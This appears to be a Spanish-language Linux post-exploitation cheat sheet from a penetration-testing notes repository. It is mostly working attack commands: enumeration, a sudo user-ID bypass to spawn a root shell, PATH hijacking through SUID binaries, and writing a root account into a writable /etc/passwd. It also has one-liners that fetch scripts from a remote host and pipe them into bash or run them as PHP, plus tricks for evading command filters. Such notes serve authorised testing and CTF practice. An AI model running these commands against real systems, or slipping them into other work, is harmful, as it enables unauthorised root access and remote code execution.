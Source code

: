 # Linux

	* [Tools](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#Tools)
	* [Version Kernel](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#version-kernel)
	* [Permisos de usuario](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#permisos-de-usuario)
	* [PATH](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#path)
	* [Permisos de archivos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#permisos-de-archivos)
	* [Procesos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#procesos)
	* [Monitoreo de red](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#Monitoreo-de-red)
	* [Descargando archivos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#Descargando-archivos)
	* [Bypassing](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md#Bypassing)

## Tools

	* [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
	* [Linenum](https://github.com/rebootuser/LinEnum)
	* [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

## Version Kernel

### Enumeracion

```bash
uname -a
```

## Permisos de usuario

### Enumeracion

```bash
sudo -l
```

```bash
cat /etc/sudoers
```

### Explotacion de binarios con permisos para sudo

	* [GTFOBins](https://gtfobins.github.io/)

### AGREGAR CVE	

Si: ALL=(ALL:!root) NOPASSWD:ALL
```bash
sudo -u#-1 /bin/sh 
```

## PATH

### Enumeracion

```bash
echo $PATH
```

### Path: .:/bin/:

Primero busca dentro de la carpeta donde estamos parados.
1. Si podemos, encontrar un binario A con SUID que llame a otro binario B con la ruta relativa
2. Ir a una carpeta donde tengamos permiso de escritura
3. Crear un binario C malicioso con el mismo nombre que binario B
4. Ejecutar binario A

## Permisos de archivos

### Enumeracion

```bash
#Para encontrar archivos con SUID activado
find / -type f -perm -u=s 2>/dev/null

#Encontrar directorios con permisos de escritura
find / -perm 777 2>/dev/null

#SGID activado
find / -perm -g=s -type f 2>/dev/null

#Find Sticky bit
find / -perm -1000 -type d 2>/dev/null
```

### Explotacion de binarios con permisos para SUID/GUID

	* [GTFOBins]()

### passwd con permisos de escritura

```bash
#Crea password para agregar en el archivo /etc/passwd si tiene permisos de escritura
python3 -c 'import crypt; print(crypt.crypt("password", "$6$"))'

#otra opcion
openssl passwd -1


#la linea donde * es donde va la pass
hercules:*:0:0:root:/root:/bin/bash
```

## Procesos

### Enumeracion

```bash
ps aux
```

```bash
pspy32 #buscar tareas que se repitan en el tiempo
```

```bash
crontab -l
```

### Crontab

```
(1)(2)(3)(4)(5) <username> <command to be executed>
(1) Minute (0 - 59)
(2) Hour (0 - 23)
(3) Day (1 - 31)
(4) Month (1 - 12)
(5) Weekday (0 - 7) (Sunday is 0 or 7, Monday is 1...)
```

## Monitoreo de red

### Netstat

```bash
netstat -antp
```

### ss

```bash
ss -antp
```

## Descargando archivos


### Server host

```bash
#En host
python -m http.server 80 #py3

python -m SimpleHTTPServer 80 #py2
```

### Cliente

#### wget

```bash
wget www.url.com/file .
```

#### Ejecutar sin descargar - Curl

```bash
curl -fsSL http://192.168.99.19:8080/test.sh | bash
```

```bash
bash < <( curl http://192.168.99.19:8080/test.sh  )
```

#### Ejecutar sin descargar - get

```bash
wget -q -O- http://192.168.99.19:8080/test.sh | bash
```

```bash
wget http://192.168.99.19:8080/shell.txt -O /tmp/x.php && php /tmp/x.php
```

## Bypassing

### Restricciones de espacios

```bash
cat$IFS/etc/passwd
```

### Usando argumento

```bash
echo $0 # es igual a /bin/bash
```

```bash
echo whoami | $0
```

### Wildcards

```bash
/usr/bin/wh?ami
/usr/bin/wh*ami
```

### Concatenaciones

```bash
'w'h'o'a'm'i
\w\h\o\a\m\i
```

### Variables sin inicializar

```bash
w${u}h${u}o${u}a${u}m${u}i
$u/usr$u/bin$u/whoami
```

### Comandos falsos

```bash
w$(u)h$(u)o$(u)a$(u)m$(u)i
w`u`h`u`o`u`a`u`m`u`i
```

### Usando History

```bash
$!-1 #Reference to last command executed. 
$!-2 #Reference to the penultimate command executed


$mi #Throw an error
$whoa #Throw an error
$!-1!-2 #Equals to whoami
```

### Nueva linea

```bash
$w\
h\
o\
a\
m\
i\
```